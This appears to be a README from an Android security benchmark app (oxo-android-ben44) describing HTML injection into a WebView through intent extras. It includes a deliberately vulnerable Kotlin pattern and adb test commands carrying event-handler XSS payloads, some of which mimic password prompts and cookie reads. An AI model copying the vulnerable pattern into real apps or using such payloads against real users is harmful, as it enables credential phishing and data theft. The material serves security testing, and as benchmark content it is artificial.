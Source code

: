 # oxo-android-ben44: HTML Injection Through Intent Parameter

## Vulnerability Overview

HTML Injection Through Intent Parameter occurs when an Android app's WebView component displays content received from intent parameters without proper sanitization. This vulnerability allows attackers to inject malicious HTML, CSS, and JavaScript code through intent extras, leading to Cross-Site Scripting (XSS) attacks within the WebView context.

## Attack Vector: Event Handler Injection with Social Engineering

**Brief Explanation**: Injection of HTML elements with malicious event handlers that execute when users interact with the content, combined with social engineering to trick users into clicking.

**Key Characteristics:**
- Uses HTML event handlers (onclick, onmouseover, onerror)
- Requires user interaction to trigger
- Can be disguised as legitimate content
- Bypasses some XSS filters that only check for script tags

**Vulnerable Code Pattern:**
```kotlin
val title = intent.getStringExtra("title") ?: "Article"
val content = intent.getStringExtra("content") ?: "Content"
val html = "<h1>$title</h1><div>$content</div>"
webView.loadData(html, "text/html", "utf-8")  // VULNERABLE!
```

## Testing

```bash
# Malicious button with onclick handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<button onclick='alert(\"Credentials stolen: \" + prompt(\"Enter password to continue:\"))'>Click to Read Full Article</button>"

# Image with onerror handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<img src='invalid' onerror='alert(\"Cookie: \" + document.cookie)' style='display:none'><p>Loading article...</p>"

# Hover-triggered attack
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<div onmouseover='alert(\"Data stolen on hover!\")' style='padding:20px; background:#f0f0f0'>Hover over this text to read more</div>"

# Input field with onchange handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<p>Enter your email for newsletter:</p><input type='email' onchange='alert(\"Email stolen: \" + this.value)' placeholder='your@email.com'>"

# Link with onclick handler
adb shell am start -n co.ostorlab.myapplication/.HtmlViewerActivity -e content "<a href='#' onclick='alert(\"User clicked malicious link!\"); return false;'>Click here for exclusive content</a>"
```

**Difficulty**: Easy

## Impact Assessment

- **Confidentiality**: High - Can access sensitive user input and app data
- **Integrity**: High - Can manipulate user interactions and steal credentials
- **Availability**: Medium - Can disrupt normal app functionality
- **OWASP Mobile Top 10**: M7 - Client Code Quality
- **CWE**: CWE-79 (Cross-site Scripting), CWE-20 (Improper Input Validation)
